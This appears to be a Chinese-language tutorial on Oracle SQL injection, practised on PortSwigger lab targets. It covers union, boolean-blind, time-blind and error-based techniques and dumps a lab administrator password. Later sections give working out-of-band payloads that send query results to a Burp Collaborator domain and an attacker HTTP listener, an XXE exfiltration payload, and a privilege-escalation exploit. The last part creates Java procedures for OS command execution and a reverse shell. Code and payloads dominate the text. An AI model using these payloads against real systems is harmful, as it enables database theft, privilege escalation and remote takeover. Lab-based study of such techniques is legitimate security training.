



## 初始环境
| 环境 | 版本 |
| --- | --- |
| 服务器 | Linux |
| 数据库 | Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production |
| web | [https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)<br />[http://o1.lab.aqlab.cn:81/?id=1](http://o1.lab.aqlab.cn:81/?id=1) |
| docker | [https://github.com/ChaMd5Team/Pentest-tools/tree/master/Oracleinject](https://github.com/ChaMd5Team/Pentest-tools/tree/master/Oracleinject) |

由于环境比较难找，这里使用burp官方提供的[靶场](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)来对三大注入方式（联合查询、盲注、报错注入）来进行讲解，练习SQL注入的同时我在本地搭建了一个Oracle的[docker](https://github.com/ChaMd5Team/Pentest-tools/tree/master/Oracleinject)来配合练习Oracle的SQL语句，因为未接触过多的Oracle注入，如果大家有更好的注入方式，欢迎各位讨论
## 强调
与MySQL，MSSQL一样，Oracle数据库也是关系型数据库且支持标准型SQL语句，所以注入方式和其他关系型数据库一样，不过有一点特殊，这里强调一下Oracle查询数据的特性：
**Oracle 使用查询语句获取数据时需要跟上表名，在没有表的情况下可以使用dual，dual是Oracle的一个虚拟表，用来构成select的语法规则，且Oracle保证dual里永远只有一条记录**
如：
```sql
-- 在mysql，mssql，postgresql中
select 1,2; -- 都是正确的
-- 但是在Oracle中，需要带上dual表
select 1,2 from dual;
```

与Postgresql 一样，Oracle 的 `||`是字符串连接符

在oracle中存在concat()函数（用法同Mysql concat()，但只能有两个参数），聚合所有结果的连接函数wm_concat()函数（同mysql group_concat()）


**Oracle 不支持堆叠查询**
## 联合查询注入
联合查询注入，和其他关系型数据库注入方式一致，需要注入的页面有明显的回显位，其作用就是，在原来的查询条件的基础上，通过关键字 `union`，`union all`，从而拼接恶意SQL语句，`union`后面的`select` 得到的结果将拼接到前个`select`的结果的后面
> - 若回显仅支持一行数据的话，让`union`前边正常的查询语句返回的结果为空
> - 使用union select进行拼接时，注意前后两个select语句的返回的字段数必须相同，否则无法拼接

`union`,`union all`区别：

- `union`: 对两个结果集进行并集操作，不包括重复行，同时进行默认规则的排序
- `union all`: 对两个结果集进行并集操作，包括重复行，不进行排序；
### 注入流程
这里以[靶场](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)为例，在判断出存在注入点后，注入流程如下所示：
```basic
1. 确定字段的数量
2. 确定页面回显位
3. 利用已知回显位查询数据
	a.查询数据库基本信息
	b.爆库名
	c.爆表名
	d.爆字段
	e.查询敏感信息
```
#### 确定字段的数量
使用`order by`语句，通过拼接数字，可确定字段数量，若大于，则页面错误/无内容，若小于/等于，则页面正常，若错误页面与正确页面一致，更换盲注或报错注入。
正常页面：

错误页面：

#### 确定页面回显位
在这里知道了字段数为2，那么就要判断回显位了，使用`union select '1','2' form dual`将定义的数字显示在页面上，就可以判断页面的回显位了
注意：

- 若确定页面有回显，但是页面中并没有我们定义的特殊标记数字出现，可能是页面现在了单行数据输出，我们让前边的select查询条件返回结果为空即可
- 注意一定要拼接够足够的字段数，否则SQL语句报错。PS：此方法也可作为判断前条select语句的方法之一
- 如果union前面的查询条件返回为空的情况下，也没有标记数字，这时候一般是类型出错，导致无法显示在页面，可以将数字更改未null，如下所示


#### 查询数据
通过第3步，找到回显位置之后，首先需要探测相关环境，如下所示
**探测Oracle版本**
```sql
select banner from v$version;
select banner from v$version where banner like 'Oracle%';
select version from v$instance;
```


**探测操作系统版本**
```sql
select banner from v$version where banner like 'TNS%'
```

**探测当前数据库用户**
```sql
select user from dual;
```

**获取当前数据库用户权限**
```sql
select privilege from session_privs;
-- Oracle 实现limit 使用rownum，构造between...and...
select * from (select t.* ,rownum as no from (select * from session_privs)t) where no between 1 and 10
```


Oracle 实现分页

**获取用户所拥有权限的数据库**
```sql
select distinct owner from all_tables
```

由于Oracle 中使用 Schema 的概念将每个用户的数据进行分离，Schema 其实类似于命名空间（Namespace），默认情况下，Schema 的名称同用户名称相同。所以当前数据库为SYSTEM
**获取当前数据库中的表**
```sql
-- 所有用户的表
select distinct table_name from all_tables where owner = 'SYSTEM'
-- 当前用户的表
select table_name from user_tables;
-- 包括系统表
select table_name from dba_tables where owner = 'SYSTEM'; 
```

**获取当前SYSTEM数据库中表USER*表的字段 **
首先先查询当前SYSTEM数据库中的USER*表
```sql
select table_name from all_tables where owner='SYSTEM' and table_name like 'USER%'
```

```sql
select column_name from all_tab_columns where table_name ='USERS_KVHXKJ'
```

**获取值**
```sql
select USERNAME_ETSGGX,PASSWORD_OEDQBQ from USERS_KVHXKJ
```

## 盲注
### 布尔盲注
Oracle 布尔盲注和Mysql盲注一样，通过页面对带入数据库永真/假条件返回的内容差异，从而判断是否可以进行布尔盲注。通常页面返回存在/不存在两个结果，就可以判断是否存在布尔注入了
#### 布尔盲注流程
```basic
1. 判断注入点
2. 求解数据库 
	a. 判断用户/当前数据库长度
	b. 依次求解用户/当前数据库长度
3. 求当前数据库表
	a. 判断当前数据库表的个数
	b. 猜解第一个表的长度
	c. 猜解表的字符串/ascii码值
	d. 依次求解，直到找到所有的表
4. 求某表的列名
	a. 判断该表列名的个数
	b. 猜解第一个列名的长度
	c. 猜解第一个列名的字符串/ascii码值
	d. 依次求解，直到该表中找到所有的列名
5. 求某表的值
	a. 判断字段的个数
	b. 猜解第一个字段的长度
	c. 猜解第一个字段的字符串/ascii码值
	d. 依次求解，直到查询完表中所有的值
```
#### 布尔盲注判断注入点
**and 1=1 恒真**
```sql
select * from xxx_table where xxx='xxx' and 1=1--'
```

**and 1=2 恒假**

利用这一特性，我们可以构造payload 通过来页面显示情况来获取数据库数据
#### 布尔盲注常用函数

- ascii()
- substr()
- decode(a,b,c,d) 当a=b 返回c，否则返回d
- instr(a,b) 如果b字符串存在a 中，返回b在a中存在的位置，否则返回0
#### 布尔盲注手法
**获取当前数据库的用户名**
```sql
select * from xxx_table where xxx='xxx' and ascii(substr((select user from dual),1,1))=83--+
```
ASCII('S') = 83

依次对字符串求解，当截取到最后一位（+1）时会substr()函数会返回空字符串，这里用is null 可以判断是否为空，当is null 是第7位成立，那么字符串长度为6位
ASCII('M')=77


**获取所有的数据库**
前面在联合查询处说了，Oracle 使用Schema 来控制不同用户的数据，所以当前数据库为用户名`SYSTEM`(Oracle 对大小写敏感)
在查询所有的数据库时，不能像MySQL那样使用limit，所以在Oracle中需要使用子查询来写SQL语句，类似如下
```sql
select owner from (select t.* ,rownum as no from (select distinct owner from all_tables)t) where no = 1
```
以第一个数据库为例子，首先确定库的长度
```sql
select length(owner) from (select t.* ,rownum as no from (select distinct owner from all_tables)t) where no = 1
```

然后配合使用`ascii()`，`substr()`函数来对字符进行依次猜解
ascii('A') = 65

依次猜解，可获取库的名称，由于没有limit，在子查询中，distinct 去重owner会消耗过多的时间，所以尽量使用手工注入，且要获取其他库的数据也没有太大的必要
**获取当前数据库的表**
```sql
-- 首先获取当前数据库存在多少表
select count(table_name) from all_tables where owner = 'SYSTEM'
```

```sql
-- 接着使用子查询，一个一个求解
select table_name from (select t.table_name,rownum as no from (select table_name from all_tables where owner='SYSTEM')t) where no = 1
```
如猜解USERS_YFRUVP表
```sql
-- 
select table_name from (select t.table_name,rownum as no from (select table_name from all_tables where owner='SYSTEM' and table_name not like '%$%')t)where no = 4
```

中间省略...


**获取某表中的字段**
以USERS_YFRUVP表为例
```sql
-- 求字段个数
select count(*) from all_tab_columns where table_name = 'USERS_YFRUVP'
```

```sql
-- 接着求解字段的长度,子查询实现limit
select length(column_name) from (select t.column_name ,rownum as no from (select column_name from all_tab_columns where table_name='USERS_YFRUVP')t) where no = 1
```

在得知长度为15的情况下，开始猜解列名
```sql
select column_name from (select t.column_name ,rownum as no from (select column_name from all_tab_columns where table_name='USERS_YFRUVP')t) where no = 1
```

依次求解，猜解的列名如下：
USERNAME_BNQFMG，PASSWORD_FFFBAY
针对已知的列名，再带入表中求解字段
**获取某表的值**
```sql
-- 在得知用户名为administrator的情况下，使用如下payload可以获取密码，若不知道用户名，且表中
-- 数据不为1，需要使用子查询来实现limit
select PASSWORD_FFFBAY from USERS_YFRUVP where USERNAME_BNQFMG = 'administrator'
```

密码为：`1ta07a6rpakca47n3iui`
类似decode()，instr()函数用法
```sql
-- 该语句表示如果a==b 返回c ，否则返回d
select decode(a,b,c,d) from dual;
-- 该语句表示b字符串存在a 中，返回b在a中存在的位置，否则返回0
select instr(a,b) from dual;
```
如下图所示，看到这里构造expression就懂了吧。。。


### 时间盲注
#### 常用函数/表达式

- decode() 类似mysql中的if
- case...when...then...else...end
- DBMS_PIPE.RECEIVE_MESSAGE
#### DBMS_PIPE.RECEIVE_MESSAGE
如果无法通过页面差来进行注入，这时就需要使用时间盲注，时间盲注主要通过判断页面返回内容的响应时间差异进行条件判断。
Oracle主要是使用`DBMS_PIPE.RECEIVE_MESSAGE('**pipename**',timeout)`函数，该函数从指定管道获取消息，**pipename**为varchar(128)的字符串，用以指定管道名称，在这里我们输入任意值即可。
**timeout**为integer的可选输入参数，用来指定等待时间。
```sql
select dbms_pipe.receive_message('o', 10) from dual;
```

配合使用**decode**函数，来构成条件语句，实现时间盲注

decode函数可以当成MYSQL中的IF函数使用，相应的表达式可以参照布尔盲注
```sql
select decode(substr((select user from dual),1,1),'S',dbms_pipe.receive_message('o', 5),2) from dual
```

也可以使用case...when.. then...else...end 来代替decode


依次求解数据库，表，列名，字段值
#### 子查询/超大表构造时间盲注
时间盲注不一定要用DBMS_PIPE.RECEIVE_MESSAGE()函数，当在进行笛卡尔积，或者查询系统表，子查询大表的时候也会造成数据库查询时间很慢，比如在布尔盲注中查询当前用户权限可访问的数据库，需要一个一个表示的时候，在子查询中去重就会消耗大量时间，如下：


## 报错注入
[报错注入靶场环境](http://o1.lab.aqlab.cn:81/?id=1)
在进行报错注入之前，首先要确定目标环境在web页面上是否有错误回显，通常使用order by 大数字，或者构造错误的sql语句来判断，介绍几种报错注入函数，其他payload也就是换子查询的SQL语句
### ctxsys.drithsx.sn()
```sql
select ctxsys.drithsx.sn(1,(select user from dual))
```

```sql
?id=1 and ctxsys.drithsx.sn(1,(select user from dual))=1--
?id=1 and ctxsys.drithsx.sn(1,(select banner from v$version))=1--
```

### XMLType()
```sql
select upper(xmltype(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual;
```
```sql
-- paylaod
and (select upper(xmltype(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null--
```

### dbms_xdb_version.checkin()
```sql
select dbms_xdb_version.checkin((select user from dual)) from dual
```

```sql
--payload
and (select dbms_xdb_version.checkin((select user from dual)) from dual) is not null--
```


### dbms_xdb_version.makeversioned()
```sql
select dbms_xdb_version.makeversioned((select user from dual)) from dual
```

```sql
and (select dbms_xdb_version.makeversioned((select user from dual)) from dual) is not null
```

### dbms_xdb_version.uncheckout()
```sql
select dbms_xdb_version.uncheckout((select banner from sys.v_$version where rownum=1)) from dual
```

```sql
-- payload
and (select dbms_xdb_version.uncheckout((select banner from sys.v_$version where rownum=1)) from dual) is not null
```

### dbms_utility.sqlid_to_sqlhash()
```sql
SELECT dbms_utility.sqlid_to_sqlhash((select banner from sys.v_$version where rownum=1)) from dual
```

```sql
and (SELECT dbms_utility.sqlid_to_sqlhash((select banner from sys.v_$version where rownum=1)) from dual) is not null
```

### ordsys.ord_dicom.getmappingxpath()
```sql
select ordsys.ord_dicom.getmappingxpath((select banner from v$version where banner like 'Oracle%'),1,1) from dual
```


### utl_inaddr.*()
作用:用于取得局域网或Internet环境中的主机名和IP地址.
1、`utl_inaddr.get_host_address` 
如果查询失败，则提示系统错误
```sql
select utl_inaddr.get_host_address((select user from dual)) from dual
```

2、`UTL_INADDR.get_host_name`
如果查询失败，则提示系统错误
```sql
select utl_inaddr.get_host_name((select user from dual)) from dual
```

## OOB 外带注入
**以下都需要用户可访问网络的权限**
### utl_http.request()
使用此方法，用户需要有utl_http访问网络的权限
然后使用`||`拼接字符外带出来，可以远程启动`HTTP`服务，或者nc远程监听某个端口
```sql
and utl_http.request('http://172.17.0.1:8888/'||(select banner from v$version where banner like 'Oracle%'))=1
```


### utl_inaddr.get_host_address()
使用dnslog外带数据
```sql
select utl_inaddr.get_host_address((select user from dual)||'.slhiqawh25q5ujl3kqdt0o48pzvqjf.burpcollaborator.net') from dual
```

```sql
-- payload
and (select utl_inaddr.get_host_address((select user from dual)||'.slhiqawh25q5ujl3kqdt0o48pzvqjf.burpcollaborator.net') from dual) is not null
```

如果像数据库版本太长，会导致出错，既然要外带，就使用substr()函数来截取字符串，每次取几个特定的字符即可,下图是选择全长度的数据库，会直接报错

这里使用substr函数进行分割，一个一个获取


### SYS.DBMS_LDAP.INIT()函数
```sql
select SYS.DBMS_LDAP.INIT((select user from dual)||'.slhiqawh25q5ujl3kqdt0o48pzvqjf.burpcollaborator.net',80) from dual
```

### HTTPURITYPE()
同样需要python起一个http服务，或者nc创建监听，或者dnslog外带
```sql
select HTTPURITYPE('http://172.17.0.1:8888/'||(select user from dual)).GETCLOB() FROM DUAL
```

```sql
and (select HTTPURITYPE('http://'||(select user from dual)||'.slhiqawh25q5ujl3kqdt0o48pzvqjf.burpcollaborator.net').GETCLOB() FROM DUAL) is not null
```

## 其他攻击方式
### Oracle XXE
实际上是`CVE-2014-6577`，受影响的版本：`11.2.0.3`，`11.2.0.4`，`12.1.0.1` 和`12.1.0.2`
Oracle XXE 的效果和 UTL_http 的效果差不多，都是将数据传输到远端服务器上。但是，由于 extractvalue() 函数对所有数据库用户都可以使用，不存在权限的问题，所以当在低权限没有UTL_http 权限时，这个不失为一个好方法
```sql
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "you own url'||(SELECT user from dual)||'"> %remote;]>'),'/l') from dual
```
### Oracle 提权漏洞
原理是 GET_DOMAIN_INDEX_TABLES 函数的参数存在注入。而该函数的所有者是 sys，所以通过注入就可以执行任意 sql 语句。而该函数的执行权限为 public，所以只要遇到一个 Oracle 的注入点并且存在这个漏洞的，基本上都可以提升到最高权限。
```sql
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES(
    '1',
    '1',
    'DBMS _OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''your own payload'''';END;'';END;--',
    'SYS',
    0,
    '1',
    0
) from dual;
```
权限提升之后就可以做很多事了，因为 Oracle 可以执行 JAVA 代码，所以在提升权限后具体怎么操作，就看各自的 JAVA 水平了。
这里给出几种常见的利用方式（以下均为 your own payload 处的代码）：
#### 命令执行

1. 创建JAVA代码
```sql
create or replace and compile java source named "Command" as import java.io.*;public class Command{public static String exec(String cmd) throws Exception{String sb="";BufferedInputStream in = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());BufferedReader inBr = new BufferedReader(new InputStreamReader(in));String lineStr;while ((lineStr = inBr.readLine()) != null)sb+=lineStr+"\n";inBr.close();in.close();return sb;}}
```

2. 赋予代码执行权限
```sql
begin dbms_java.grant_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''', ''''''''<<ALL FILES>>'''''''', ''''''''execute'''''''' );end;
```

3. 创建函数
```sql
create or replace function cmd(p_cmd in varchar2) return varchar2 as language java name ''''''''Command.exec(java.lang.String) return String'''''''';
```

4. 赋予函数执行权限
```sql
grant all on cmd to public
```

5. 执行命令
```sql
select sys.cmd('whoami') from dual;
```
#### 反弹shell

1. 创建java代码
```sql
create or replace and compile java source named "shell" as import java.io.*;import java.net.*;public class shell{public static void run() throws Exception {Socket s = new Socket("your own ip", 80);Process p = Runtime.getRuntime().exec("cmd.exe");new T(p.getInputStream(), s.getOutputStream()).start();new T(p.getErrorStream(), s.getOutputStream()).start();new T(s.getInputStream(), p.getOutputStream()).start();}static class T extends Thread {private InputStream i;private OutputStream u;public T(InputStream in, OutputStream out) {this.u = out;this.i = in;}public void run() {BufferedReader n = new BufferedReader(new InputStreamReader(i));BufferedWriter w = new BufferedWriter(new OutputStreamWriter(u));char f[] = new char[8192];int l;try {while ((l = n.read(f, 0, f.length)) > 0) {w.write(f, 0, l);w.flush();}} catch (IOException e) {}try {if (n != null)n.close();if (w != null)w.close();} catch (Exception e) {}}}}
```

2. 赋予代码执行权限
```sql
begin dbms_java.grant_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.net.SocketPermission'''''''', ''''''''<>'''''''', ''''''''*'''''''' );end;
```

3. 创建函数
```sql
create or replace function reversetcp RETURN VARCHAR2 as language java name ''''''''shell.run() return String''''''''; 
```

4. 赋予函数执行权限
```sql
grant all on reversetcp to public
```

5. 执行命令
```sql
select sys.reversetcp from dual;
```

